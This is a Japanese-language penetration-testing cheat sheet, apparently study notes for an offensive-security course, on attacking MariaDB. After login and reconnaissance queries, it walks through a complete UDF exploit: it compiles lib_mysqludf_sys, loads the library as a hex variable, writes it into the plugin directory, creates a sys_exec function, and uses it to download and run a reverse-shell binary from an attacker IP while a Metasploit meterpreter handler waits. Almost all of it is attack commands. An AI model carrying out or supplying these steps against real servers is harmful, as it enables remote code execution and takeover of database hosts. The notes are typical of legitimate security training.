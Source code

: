 # MariaDB

[toc]

* ログイン

  ```
  mysql --host=127.0.0.1 --port=13306 --user=wp -p
  ```

  

* 情報収集

  ```mariadb
  SHOW Grants;
  ```

  ※"*"の権限があるとより良い

  ```mariadb
  show variables like '%plugin%';
  ```

  →ディレクトリが設定されていること
  
  ```mariadb
  show variables like '%secure_file_priv%';
  ```
  
  →空白であること。設定されている場合、設定ファイルを修正用。権限がない場合が多い
  
  ```bash
  find ./ -name 'my.ini' 2>/dev/null
  find ./ -name 'mysql.oni' 2>/dev/null
  ```
  
  

* 脆弱性調査

  ```bash
  searchsploit mariadb
  searchsploit mysql
  ```



### UDF(User Defined)エクスプロイト

MySQLのカスタム関数を作成し、システムコマンドを含むほとんどすべてのコードを実行する

* シェルスクリプトをダウンロードする

  ```bash
  git clone https://github.com/mysqludf/lib_mysqludf_sys.git
  cd lib_mysqludf_sys/
  ```

* libmysqlclient15-dev をインストールする

  ```bash
  sudo apt update && sudo apt install default-libmysqlclient-dev
  sudo apt install default-libmysqlclient-dev
  ```

* 古いオブジェクトファイルを削除

  ```bash
  rm lib_mysqludf_sys.so
  ```

* Makefileを修正する

  ```makefile
  LIBDIR=/usr/lib
  
  install:
  	gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
  ```

  * Wallフラグ：gccの警告メッセージをすべて有効
  * -Iはヘッダーファイルのディレクトリを含める

* コンパイルする

  ```
  make
  ```

  * ライブラリがなければ再度apt installを試してみる
  * それでもなければネットからダウンロードして-Iオプションで指定したディレクトリ配下に追加する

  * __WINエラの対処法

    ![image-20230125210644950](img/mariadb/image-20230125210644950.png)

    https://forums.offensive-security.com/showthread.php?38783-24-3-2-make-failed-(missing-m_ctype-h)/page4&p=190865#post190865

* データベースに登録するためにhexdumpを出力する

  ```bash
  xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
  ```

  -p：プレーンなhexdumpを出力

   tr を使って改行文字を削除

* MariaDBにシェルコード用の変数を作成する

  ※hexファイルの出力の先頭に`0x`を付けて定義する(MariaDBがテキストをバイナリとして読み取るために必要なもの)

  ```mariadb
  set @shell = 0x7f454c4602010100000000000000000003003e00010000000000000000000000400000000000000070390000000000000000000040003800090040001c001b000100000004000000000000000000000000000000000000000000000000000000b009000000000000b009000000000000001000000000000001000000050000000010000000・・・・・・・・・・・・・・・・・・・・000001100000003000000000000000000000000000000000000007c38000000000000f100000000000000000000000000000001000000000000000000000000000000;
  ```

* プラグインディレクトリの場所を確認

  ```bash
  select @@plugin_dir;
  ```

* シェル変数を攻撃対象ホストのプラグインフォルダに出力

  ```mariadb
  select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
  ```

  ※ファイル名には好きな名前を付けることができる

* 関数を作成する

  ```mariadb
  create function sys_exec returns int soname 'udf_sys_exec.so';
  ```

* 関数ができたか確認する

  ```bash
  select * from mysql.func where name='sys_exec';
  ```

* リバースシェルを配送して実行する

  ```mariadb
  select sys_exec('wget http://192.168.119.153');
  select sys_exec('wget http://192.168.119.153/shell_2.elf');
  select sys_exec('chmod +x ./shell_2.elf');
  ```

  ```bash
  exit
  sudo msfconsole -q -x "use exploit/multi/handler;\
               set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
               set LHOST 10.11.0.4;\
               set LPORT 443;\
               run"
  ```

  ```ddmariadb
  select sys_exec('./shell_2.elf');
  ```
